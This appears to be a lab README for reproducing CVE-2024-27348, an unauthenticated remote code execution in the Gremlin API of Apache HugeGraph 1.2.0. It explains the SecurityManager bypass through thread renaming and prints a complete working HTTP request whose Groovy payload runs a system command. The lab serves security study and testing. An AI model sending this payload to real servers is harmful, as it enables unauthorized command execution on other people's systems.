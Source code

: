 # Apache HugeGraph Unauthenticated Remote Code Execution (CVE-2024-27348)

[中文版本(Chinese version)](README.zh-cn.md)

Apache HugeGraph is a fast and highly scalable graph database. It provides graph database capabilities with complete features, excellent performance, and enterprise-level reliability.

A remote code execution vulnerability exists in the Gremlin API of HugeGraph. Gremlin is a graph traversal language that can be implemented in various programming languages such as Groovy, Python, and Java. An attacker is able to use Gremlin API to execute Groovy based Gremlin commands without authentication, which can be used to execute arbitrary commands.

In theory, Apache HugeGraph will use the SecurityManager to restrict the Groovy scripts submitted by users. But the SecurityManager only checks thread names that start with "gremlin-server-exec" or "task-worker". This mechanism can be bypassed by using reflection to modify the current thread name, allowing arbitrary code execution.

References:

- <https://blog.securelayer7.net/remote-code-execution-in-apache-hugegraph/>
- <https://www.vicarius.io/vsociety/posts/remote-code-execution-vulnerability-in-apache-hugegraph-server-cve-2024-27348>
- <https://github.com/Zeyad-Azima/CVE-2024-27348>

## Environment Setup

Execute the following command to start a vulnerable HugeGraph server 1.2.0:

```
docker compose up -d
```

After the server is started, you can access the HugeGraph RESTful API at `http://your-ip:8080`.

## Vulnerability Reproduce

Send a malicious Gremlin query through the Gremlin API endpoint to execute arbitrary commands:

```
POST /gremlin HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 777

{
    "gremlin": "Thread thread = Thread.currentThread();Class clz = Class.forName(\"java.lang.Thread\");java.lang.reflect.Field field = clz.getDeclaredField(\"name\");field.setAccessible(true);field.set(thread, \"SL7\");Class processBuilderClass = Class.forName(\"java.lang.ProcessBuilder\");java.lang.reflect.Constructor constructor = processBuilderClass.getConstructor(java.util.List.class);java.util.List command = java.util.Arrays.asList(\"id\");Object processBuilderInstance = constructor.newInstance(command);java.lang.reflect.Method startMethod = processBuilderClass.getMethod(\"start\");org.apache.commons.io.IOUtils.toString(startMethod.invoke(processBuilderInstance).getInputStream());",
    "bindings": {},
    "language": "gremlin-groovy",
    "aliases": {}
}
```

The command will be executed successfully:

![](1.png)
